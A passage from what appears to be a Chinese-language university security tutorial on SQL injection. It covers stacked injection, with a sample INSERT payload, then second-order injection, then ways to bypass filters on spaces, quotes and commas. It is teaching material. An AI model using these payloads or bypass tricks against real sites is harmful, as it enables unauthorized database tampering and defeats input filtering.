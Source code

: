 当注入点使用的执行函数允许一次性执行多个 SQL 语句的时候，例如 PHP 中的 `multi_query` ，堆叠注入即存在。堆叠注入相较于其他方式，利用的手法更加自由，不局限于原来的 SELECT 语句，而可以拓展到 INSERT、SHOW、SET、UPDATE 语句等。

```
Liki4';INSERT INTO users VALUES ('Liki3','01848f8e70090495a136698a41c5b37406968c648ab12133e0f256b2364b5bb5');#
```

![img](C:\Users\24993\Desktop\博客文章\static\boxcnrMIc2m6oubxC86CEtw1jMe.png)

![img](C:\Users\24993\Desktop\博客文章\static\boxcnVRdntvakiTpt7nP8JhKKfc.png)

INSERT 语句也被成功执行了，向数据库中插入了 Liki3 的数据

### 二次注入[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#二次注入)

二次注入的原理与前面所有的注入方式一致，仅仅在于触发点不同。

在某些 Web 应用中，注册时对用户的输入做了良好的预处理，但在后续使用的过程中存在未做处理的注入点，此时即可能造成二次注入

常见的场景，例如某平台在用户注册时无法进行 SQL 注入利用，但在登陆后的用户个人信息界面进行数据查询时存在可利用的注入点。

那么我们在注册的时候即便无法当即触发 SQL 注入，但可以将恶意 payload 暂时写入到数据库中，这样一来当我们访问个人信息界面查询这个恶意 payload 的时候即会在可利用的注入点触发 SQL 注入。

## SQL 注入常见的过滤绕过方式[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#sql-注入常见的过滤绕过方式)

### 空格被过滤[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#空格被过滤)

1. `/*xxx*/` MySQL 行内注释

```
SELECT/*1*/username,password/*1*/FROM/*1*/users;
```

1. `()`

```
SELECT(username),(password)FROM(users);
```

1. `%20 %09 %0a %0b %0c %0d %a0 %00` 等不可见字符

### 引号被过滤[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#引号被过滤)

1. 十六进制代替字符串

```
SELECT username, password FROM users WHERE username=0x4c696b6934
```

### 逗号被过滤[](https://hdu-cs.wiki/6.计算机安全/6.1.1SQL 注入#逗号被过滤)

1. `from for`

```
select substr(database(),1,1);
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```
